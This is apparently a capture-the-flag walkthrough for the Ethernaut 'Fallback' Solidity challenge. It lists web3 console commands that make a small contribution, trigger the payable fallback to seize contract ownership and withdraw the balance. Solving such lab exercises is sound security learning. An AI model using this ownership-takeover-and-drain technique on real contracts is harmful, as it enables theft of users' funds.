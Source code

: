 ## Fallback Solution


1. Check current contract balance  
`fromWei(await getBalance(contract.address))`  
"0"

2. Check owner contributions  
`fromWei(await contract.contributions(await contract.owner()))`  
"1000"

3. Fallback payable function changes the contract's owner but senders contributions must be bigger than 0  
`contract.contribute({value: toWei(0.0001)});`

4. Check if contribution is valid  
`fromWei(await contract.contributions(player))`  
"0.0001"

5. Call fallback payable function  
`await contract.sendTransaction({from: player, value: toWei(0.001), gas: 90000 })`

6. Check if player is the owner  
`player === (await contract.owner())`  
true

7. Withdraw funds  
`await contract.withdraw()`
